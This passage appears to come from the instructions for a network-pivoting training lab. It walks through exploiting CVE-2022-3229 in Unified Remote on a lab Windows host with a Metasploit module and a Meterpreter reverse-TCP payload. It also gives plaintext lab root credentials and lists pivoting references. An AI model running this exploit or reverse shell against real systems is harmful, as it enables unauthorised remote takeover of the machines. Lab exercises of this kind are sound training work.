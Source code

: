 #### Windows exploitation

The Windows machine at 10.X.22.60 is vulnerable to CVE-2022-3229, an authentication bypass in Unified Remote version 3.11.0.2483 and prior.  Windows Defender has been turned off to allow you to use the metasploit module for this exploit.

```
msfconsole -q
use exploit/windows/misc/unified_remote_rce
set RHOST 10.X.22.60
set LHOST eth0 
set payload windows/meterpreter/reverse_tcp
run
```

You can also log in as root using the SSH key on the kali machine, or with plaintext credentials over winrm, ssh or RDP:

root:PivotLab1!

# References

- https://github.com/opsdisk/the_cyber_plumbers_handbook
- http://www.dest-unreach.org/socat/doc/socat-tun.html
- https://swisskyrepo.github.io/InternalAllTheThings/redteam/pivoting/network-pivoting-techniques/
- https://blog.raw.pm/en/state-of-the-art-of-network-pivoting-in-2019/
- https://latest.gost.run/en/
- https://gost.run/en/tutorials/
- https://www.sans.org/blog/using-the-ssh-konami-code-ssh-control-sequences/
- https://gitbook.seguranca-informatica.pt/cheat-sheet-1/stuff/pivoting


